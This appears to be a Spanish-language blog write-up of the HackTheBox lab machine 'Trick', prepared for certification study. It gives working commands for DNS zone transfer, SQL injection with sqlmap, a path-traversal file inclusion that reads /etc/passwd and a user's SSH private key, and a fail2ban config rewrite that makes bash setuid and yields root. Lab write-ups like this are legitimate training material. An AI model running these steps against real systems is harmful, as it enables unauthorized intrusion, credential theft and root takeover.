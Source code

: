 ```yaml
---
layout: post
title: "Write Up Trick."
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Linux,SSTI,axfr,DNS,SQLi,LFI,RCE,SQLMap,Web,Vulnerability-Assessment,Injection,Custom-Applications,Protocols,PHP,Configuration-Analysis,SUDO,Privilege-Abuse,File-System-Configuration,eWPT,eWPTxv2,OSWE,OSCP]  
image:
  path: /assets/img/trick/trick.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.11.166 -oA allports
```


![list](/assets/img/trick/Kali-2022-08-30-19-23-17.png){:.lead width="800" height="100" loading="lazy"}

***

### Services and Versions


```bash
nmap -p22,25,53,80 -sV -sC 10.10.11.166 -oN target
```


![list](/assets/img/trick/Kali-2022-08-30-19-23-22.png){:.lead width="800" height="100" loading="lazy"}


***
## Vulnerability Analysis and Explotation


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros, ademas ispeccionamos la web.


Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/trick/Kali-2022-08-30-19-27-48.png){:.lead width="800" height="100" loading="lazy"}


Ya que esta el puero 53 abierto vamos a probar el ataque de domain zone transfer `axfr`, esto lo hacemos con la herramienta dig.


![list](/assets/img/trick/Kali-2022-08-30-19-37-54.png){:.lead width="800" height="100" loading="lazy"}


```bash
dig trick.htb axfr @10.10.10.161 
```


{:.note}
El dominio se deduce ya que todas las maquinas de este tipo van con el nombre de la misma y punto htb, todo los dominios los incorporamos al `/etc/hosts`.


{:.note}
El dominio `preprod-payroll.trick.htb` que metimos al `/etc/hosts`es que debemos recargar en la pagina web para encontrarnos con un login.


![list](/assets/img/trick/1.png){:.lead width="800" height="100" loading="lazy"}


Utilizamos sqlmap para conseguir archivos de la máquina.


![list](/assets/img/trick/Kali-2022-08-30-19-46-06.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Aunque no encontramos nada lo que podemos pensar esque exite el dominio `preprod-` y despues del guion puede que exita otros por lo quepodemos aplicar fuerza bruta.


![list](/assets/img/trick/Kali-2022-08-30-20-25-07.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ahora encontramos otro dominio `preprod-marketing`en el cual encontramos algp de informacion.


Inspeccionando la web vemos que se gestiona con el parametro `page=` lo que me hace pensar en local file inclusion pero tiene protección,pero con sqlmap podemos leer el index.php intentando lo que hicimos antes.


![list](/assets/img/trick/Kali-2022-08-30-20-41-09.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Cuando analizamos el contenido nos podemos fijar que remplaza  "../" a "" vacio, pero esta protección se puede bypassear facilmente, hay un ejemplo en el repositorio de [PayloadsAllTheThings].


[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal


Ya con la forma de bypassear el lfi podemos enumerar el numero de usuarios de la  victima.


![list](/assets/img/trick/Kali-2022-08-30-20-46-51.png){:.lead width="800" height="100" loading="lazy"}


```bash
curl "preprod-marketing.trick.htb/index.php?page=..././..././..././etc/passwd" | grep bash
```


Tambien podemos enumerar la id_rsa de usuario michael para conectarnos por ssh.


```bash
curl "preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa"
```


Al conectarnos por ssh de la siguiente manera ya somo capaces de buscar la flag de user.txt en el escritorio.


![list](/assets/img/trick/Kali-2022-08-30-20-56-38.png){:.lead width="800" height="100" loading="lazy"}


```bash
 ssh michael@10.10.11.166 -i id_rsa
```


{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.


***

## Escalation Privileges


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, pero en este caso con sudo -l vemos ue un servicio fail2ban se puede reiniciar como root sin contraseña.


Debemos localizar el archivo de configuración de fail2ban.


![list](/assets/img/trick/Kali-2022-08-30-21-11-51.png){:.lead width="800" height="100" loading="lazy"}


No podemos modificar el actionban pero podemos borrarlo y crear uno nuevo asi que harémos lo siguiente preferentemente en /tmp.


![list](/assets/img/trick/Kali-2022-08-30-21-14-58.png){:.lead width="800" height="100" loading="lazy"}


```bash
sed "s/<iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>/chmod u+s \/bin\/bash/g" /etc/fail2ban/action.d/iptables-multiport.conf > config.conf
```


{:.note}
injectaremos ese one-liner en config.conf.



```bash
rm -f /etc/fail2ban/action.d/iptables-multiport.conf
```


{:.note}
Borramos el archivo `iptables-multiport.conf`.


```bash
mv config.conf /etc/fail2ban/action.d/iptables-multiport.conf
```


{:.note}
Movemos config.conf a la ruta en action.d con el nombre`iptables-multiport.conf` .


Reiniciaremos el servicio y aplicaremos fuerza bruta con `Hydra` para forzar el ban, ahora si como ya no estamos restingidos a nivel de iptables podemos usar Hydra y después dealgunos segundos la bash deberia de convertirse en suid y nos convertimos root.


![list](/assets/img/trick/Kali-2022-08-30-21-18-19.png){:.lead width="800" height="100" loading="lazy"}


En estepunto usaremos `ls -la` para ver debe de estr con la letra "s" y luego con el comado `bash -p` non comvertimos en root.


![list](/assets/img/trick/Kali-2022-08-30-21-38-25.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag de rootsueleestr en el escritorip del usuario /root.


***
```bash
🎉 Felicitaciones ya has comprometido Trick de HackTheBox 🎉
```
{:.centered}

***

Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eWPTv2](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSWE](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}